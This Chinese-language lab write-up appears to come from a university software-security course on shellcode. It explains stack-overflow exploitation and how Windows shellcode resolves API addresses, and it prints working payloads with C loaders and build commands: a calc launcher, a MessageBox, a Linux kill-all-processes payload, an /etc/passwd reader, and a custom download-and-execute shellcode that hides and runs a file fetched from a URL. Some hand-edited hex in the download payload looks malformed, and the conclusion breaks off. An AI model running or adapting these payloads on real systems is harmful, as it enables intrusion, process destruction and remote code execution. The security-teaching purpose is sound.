



# ShellCode
## shellcode
>[exploit-db shellcode](https://www.exploit-db.com/shellcodes)
1. 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址。那么跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。这段代码当然是需要攻击者来编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
2. 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
3. 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。现在，shellcode的功能已经很多了。但是总体的目的还是对远程的目标计算机进行控制。
4. 此处[exploit-db shellcode](https://www.exploit-db.com/shellcodes)有很多shellcode，各个平台的，能实现很多不同的功能。
## [Null-Free WinExec Calc.exe Shellcode](https://www.exploit-db.com/shellcodes/48116)
1. 这个shellcode的功能是运行一个计算器程序。这个是在编写PoC时最常使用的一种方法,能证明系统被控制，因为如果能悄无声息的运行计算机程序，理论上来说就能运行任何程序
2. 下面是一段C语言的代码。其中汇编部分是源代码。C语言中的 code 变量，是上面的汇编代码在编译以后的二进制程序。这一段就是可运行的shellcode了。然后下面的main函数，是吧这个code运行起来。
```cpp
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
3. 这一段代码用到了一个较为高级的C语言语法，函数指针。              
                              
* 定义了一个函数指针变量，func
* 这个函数指针的变量类型是 int(*)().表示返回值是int，参数列表为空的一个函数。
* 在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了。
* 就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。
4. 现在VS中建一个空工程，把整个C语言部分复制到VS中。         
                             
* 出现`错误 C2440 “类型转换”: 无法从“char [196]”转换为“int (__cdecl *)(void)” `,把.cpp重命名为 .c，再次执行
5. 调试运行
* 会出现一个错误`0x001D9000 处(位于 Project1.exe 中)引发的异常: 0xC0000005: 执行位置 0x001D9000 时发生访问冲突`                        
                              
* 0xC0000005 是Windows系统内部错误代码，表示内存访问异常。
* 这个错误，表示你当前访问了一个未分配的内存地址。或者，所访问的内存地址的保护属性冲突。比如如果内存的保护属性是 readonly，但是你写入了，那么也会引起这个访问异常错误。
6. 下一个断点，单步执行。是在运行`(int)(*func)()`时出错的。           
                             
* 这一行是调用 func执行，而现在func是指向code的，也就是func的值是code的内存地址。
* 而code这段内存是存在的，它是一段已经分配的内存。因为它是全局变量，在程序运行起来后，就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的。
* 那就应该是第二种情况，内存分页的保护属性问题。
* 其实和Linux里的文件类似，操作系统中的内存分页，也分为读写执行三种保护属性。由于code是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性。但是我们要去执行它，所以可能引发了异常。
7. `func = (int(*)()) code;`处下断点，调试窗口->右键转到反汇编。
8. F1直到停到`call func`处              
                              
9. 再按F11，`mov         esi,esp`处出现异常                  
                             
这里 00FD7000 就是code的第一个字节的位置
10. 修改错误，就是修改内存保护属性。用`VirtualProtect`,改一下代码         
```c
int main(int argc, char** argv)
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) code;
	VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```
出现了计算机                       
                              
* VirtualProtect 函数会把第一个参数，这里是 func，所指向的内存地址的 第二个参数，这里是 sizeof(code)，这段内存区域所在分页的内存属性修改为第三个参数的属性。
* PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。
* 通过第四个参数 dwOldProtect 反正在修改之前的内存保护属性。
11. `(int)(*func)();`处下断点，运行到断点处，转到反汇编，F11           
                             
* 和源代码中的汇编部分，是不是一样的                         
                              
* 字节码部分 89 e5 ... 是和 code一样的
                             
* code反汇编之后，就是汇编的源码。其实，我们这段code，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中 dump出来的。
12. 把下图代码保存为`win32-WinExec_Calc-Exit.asm`传到linux系统                   
                             
```bash
# linux
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```
                              
13. 如果我们用C语言编写一个运行计算器的程序，其实很简单。我们只需要调用一下WinExec函数，或者CreateProcess函数。如果用汇编来写，也就是几条指令的事。几个参数 push 入栈以后，call函数地址就可以了。就能调用函数地址。
14. 那为什么我们这段代码写的这么复杂呢？一百行左右了吧.还有循环。
* 如果我们是在C语言中编写调用WinExec函数，那个call之后的WinExec函数的地址，是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。
* 在shellcode中，有这个过程吗？要意识到，我们最终是要把这代code嵌入到溢出攻击的数据中。被攻击的目标对象会有动态链接的过程吗？没有，也就是code这段代码，如果要call WinExec，那么WinExec函数在哪？没人告诉code。也就是说，shellcode，其实干了一个进程初始化的过程中，操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。
* 那这个问题简单啊，我们不是有GetProcAddress函数吗，这个函数就可以获得API函数的地址啊。问题又来了，GetProcAddress函数，也是一个API.GetProcAddress函数的地址也不知道呢，如果能调用GetProcAddress函数，那WinExec也能调了。
* 所以任何 API地址都没有。shellcode进入到了一个完全陌生的环境。所以早期的黑客们，想了很多办法，能不能比较原始的办法，能够获得API地址。其实操作系统，也有一个加载的过程。黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构。发现有一个链表，管理了所有的已经加载的dll文件。
* 这个链表，就是我们这个代码里InitOrderModuleList.这个InitOrderModuleList 在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB(进程环境块)这个数据结构里。而PEB数据结构，在每个进程中，是一个固定的位置，是一个绝对的常量地址。这个地址就是fs:ebx+0x30。所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到。
* 从这里我们能一层层找到dll的基地址。然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再在导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。所以代码中的循环，findFunctionAddr 的递归函数，和searchLoop就是在遍历dll的导出表。
* 代码中大量使用到了硬编码的偏移地址，比如就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。
* 通过系统中若干数据结构这种原始的访问方式，可以找到API函数。
15. shellcode中还用到了字符串。至少函数地址的名称是需要的。还有调用WinExec的参数 calc.exe
* 如果我们在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。代码 机器指令在 text段中， 字符串在data段中。地址相差很远。而我们objdump，只取了代码段，没有取数据段，那要shellcode就太大了，而且中间可能会有很多的填充字符。而且数据地址很有可能是绝对地址。
* 636c6163，6578652e是 calc.exe的big ending 反写。压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。            
                 
-----
# 课外实验
## 实验背景
* win10
* win7
* win xp
* ubuntu 16.04
## 实验要求
1. 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改[示例代码](https://www.exploit-db.com/shellcodes/48116)的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
3. 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
## 实验过程
1. 进入[exploit-db](https://www.exploit-db.com),点击旁边列表里的shellcode,挑选不同平台的 3-4个shellcode
                                      
2. 通过filter筛选平台为windows的                           
                                      
### [Windows - MessageBox + Null-Free Shellcode (113 bytes)](https://www.exploit-db.com/shellcodes/28996)
1. 代码
```c
#include <windows.h>
char code[] = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7";


int main(int argc, char **argv) 
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) code;
	VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```
将代码复制并将.cpp改成.c,然后运行，成功跳出弹窗                               
                                      
2. 汇编语言
```bash
      sub sp,0x454   # 给栈区分配一段空间
      xor ebx,ebx  # 将ebx清零
	  push ebx
	  push 0x61626364   # 输出的元素入栈
	  push 0x65666768   
	  mov  eax,esp   # 将栈顶指针赋值给eax
	  push ebx
	  push eax
	  push eax
	  push ebx
	  mov  eax,0x77d507ea
	  call eax
```
基本逻辑
* 先找到 Kernel32.dll
* 再push MessageBox()及其参数
* call调用
* 如果需要退出，再加载Exit（这个实例是没有的）
### [Linux/x64 - Kill All Processes Shellcode (11 bytes)](https://www.exploit-db.com/shellcodes/46492)
1. 将代码保存为killprocess.c
```bash
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05";


int main()
{

printf("Shellcode Length:  %d\n", (int)strlen(code));

int (*ret)() = (int(*)())code;

ret();

return 0;
}
```
2. 进行编译链接
```bash
gcc -fno-stack-protector -z execstack killprocess.c -o killprocess
```
3. 执行:`./killprocess`                                
会发现ssh，sftp连接被断开，而且退出了登录                         
                             
4. 汇编语言
```bash
========DESCTIPTION===========================
      #include <sys/types.h>
      #include <signal.h>
        int kill(pid_t pid, int sig); 

#### 汇编语言
	push 	0x3e		; sys kill
	pop  	rax
	push 	-1 			; pid  # 将信号广播传送给系统内所有的进程
	pop		rdi
	push	0x9			; sig kill
	pop 	rsi
	syscall
```
* kill()可以用来送参数sig 指定的信号给参数pid 指定的进程。参数pid 有几种情况：
1. pid>0 将信号传给进程识别码为pid 的进程.
2. pid=0 将信号传给和目前进程相同进程组的所有进程
3. pid=-1 将信号广播传送给系统内所有的进程
4. pid<0 将信号传给进程组识别码为pid 绝对值的所有进程参数 sig 代表的信号编号可参考附录D
* 相当于调用kill函数，并将kill的信号广播给所有的进程           
### [Linux x86/x64 - Read /etc/passwd Shellcode (156 bytes)](https://www.exploit-db.com/shellcodes/39338)
1. 将代码保存为read.c
```c
unsigned char shellcode[] =
"\x31\xc0\x40\x74\x3a\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64";

int main(void){
    (*(void(*)()) shellcode)();
}
```
2. 传到linux系统
```bash
gcc -fno-stack-protector -z execstack read.c -o read
./read
```
                                       
### 下载文件
修改[示例代码](https://www.exploit-db.com/shellcodes/48116)的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
* [Windows/x86 - URLDownloadToFileA(http://192.168.86.130/sample.exe) + SetFileAttributesA(pyld.exe) + WinExec() + ExitProcess() Shellcode (394 bytes)](https://www.exploit-db.com/shellcodes/40094)
0. 将自己的下载网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为十六进制
```c
0x6578652e  // exe.
0x30323032  // 0202
0x51514350  // QQCP
0x2f455845  // /EXE
0x5f515143  // _QQC
0x502f5151  // P/QQ
0x43502f62  // CP/b
0x65777171  // ewqq
0x2f6d6f63  // /moc
0x2e71712e  // .qq.
0x6e776f64  // nwod
0x2f2f3a73  // //:s
0x70747468  // ptth
```
1. 找到kernel32的基地址
```
xor ecx,ecx
mov eax,[fs:ecx+0x30] ;Eax=PEB
mov eax,[eax+0xc] ;eax=PEB.Ldr
mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
lodsd 
xchg esi,eax
lodsd
mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
add ebx,ecx ;ebx=PE HEADER
mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

mov esi,[ebx+0x20] ;AddressOfNames
add esi,ecx
```
2. 找到GetProcAddress
```
or edx,edx

count:
inc edx
lodsd
add eax,ecx
cmp dword [eax],'GetP'
jnz count
cmp dword [eax+4],'rocA'
jnz count
cmp dword [eax+8],'ddre'
jnz count

;---------------------------------------------

mov esi,[ebx+0x1c] ;AddressOfFunctions
add esi,ecx

mov edx,[esi+edx*4]
add edx,ecx ;edx=GetProcAddress()

;-----------------------------------------

xor esi,esi
mov esi,edx ;GetProcAddress()
mov edi,ecx ;kernel32.dll
```
3. 使用GetProcAddress确定LoadLibrary函数地址
```
;------------------------------------
;finding address of LoadLibraryA()
xor eax,eax
push eax
push 0x41797261
push 0x7262694c
push 0x64616f4c

push esp
push ecx

call edx

;------------------------
add esp,12

```
4. 使用`LoadLibrary`加载加载urlmon.dll
```
;-----------------------------

;LoadLibraryA("urlmon.dll")
xor ecx,ecx

push 0x41416c6c
mov [esp+2],byte cl
push 0x642e6e6f
push 0x6d6c7275

push esp
call eax

;-----------------------

add esp,12
```
5. 获得`URLDownloadToFileA`入口
```
;-----------------------
;finding address of URLDownloadToFileA()
xor ecx,ecx
push 0x42424165
mov [esp+2],byte cl
push 0x6c69466f
push 0x5464616f
push 0x6c6e776f
push 0x444c5255

push esp
push eax
call esi

;------------------------
add esp,20
push eax 
```
6. 开始下载文件
```
;URLDownloadToFileA(NULL,url,save as,0,NULL)
download:
pop eax
xor ecx,ecx
push ecx

;-----------------------------
;change it to file url

0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP
0x2f455845  ; /EXE
0x5f515143  ; _QQC
0x502f5151  ; P/QQ
0x43502f62  ; CP/b
0x65777171  ; ewqq
0x2f6d6f63  ; /moc
0x2e71712e  ; .qq.
0x6e776f64  ; nwod
0x2f2f3a73  ; //:s
0x70747468  ; ptth
;-----------------------------------


push esp 
pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

xor ebx,ebx
push ebx
;save as (no need change it.if U want to change it,do it)
push 0x6578652e
push 0x646c7970
;-------------------------------
push esp ;pyld.exe
pop ebx ;save as

xor edx,edx
push eax
push edx
push edx
push ebx
push ecx
push edx

call eax

;-------------------------

pop ecx
add esp,44
xor edx,edx
cmp eax,edx
push ecx
jnz download ;if it fails to download , retry contineusly
;------------------
pop edx
```
7. 找到`SetFileAttributesA()`地址
```
;-----------------------
;Finding address of SetFileAttributesA()
xor edx,edx


push 0x42424173
mov [esp+2],byte dl
push 0x65747562
push 0x69727474
push 0x41656c69
push 0x46746553

push esp
push edi

call esi

;--------------------------------

add esp,20 ;U must adjust stack or it will crash
```
8. 调用`SetFileAttributesA()`
```
;--------------------
;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
xor ecx,ecx
push ecx
push 0x6578652e
push 0x646c7970

push esp
pop ecx

xor edx,edx
add edx,2 ;FILE_ATTRIBUTE_HIDDEN

push edx
push ecx

call eax

;-------------------

add esp,8
```
9. 找到`WinExec()`函数地址
```
;---------------------------

;finding address of WinExec()
xor ecx,ecx

push 0x41636578
mov [esp+3],byte cl
push 0x456e6957

push esp
push edi
call esi

;----------------------

add esp,8

```
10. 执行函数
```
;------------------------
;calling WinExec("PCQQ2020.exe",0)
xor ecx,ecx
push ecx
0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP

push esp
pop ecx

xor edx,edx
push edx
push ecx

call eax
;-------------------------

add esp,8
```
11. 结束进程
```
;-----------------------------

;finding address of ExitProcess()
xor ecx,ecx
push 0x41737365
mov [esp+3],byte cl
push 0x636f7250
push 0x74697845

push esp
push edi

call esi

;--------------
call eax


```
12. 修改示例代码
```
\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68
\x2e\x65\x78\x65\x68
\x32\x30\x32\x30\x68
\x50\x43\x51\x51\x68
\x45\x58\x45\x2f\x68
\x43\x51\x51\x5f\x68
\x51\x51\x2f\x50\x68
\x62\x2f\x50\x43\x68
\x71\x71\x77\x65\x86
\x63\x6f\x6d\x2f\x86
\x2e\x71\x71\x2e\x86
\x64\x6f\x77\x6e\x86
\x73\x3a\x2f\x2f\x86
\x68\x74\x74\x70
\x54\x59\x31\xdb\x53\x68
\x2e\x65\x78\x65
\x68
\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68
\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68
\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x5
```
13. c文件
```cpp

#include<stdio.h>
#include<string.h>
#include <windows.h>


char code[] = 
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0";

int main(int argc, char **argv) 
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) code;
	VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```

## 实验结论
1. shellcode不能是任意的机器码。在编写自己的shellcode时，我们必须需要注意shellcode的一些限制：
	1. 不能使用字符串的直接偏移。
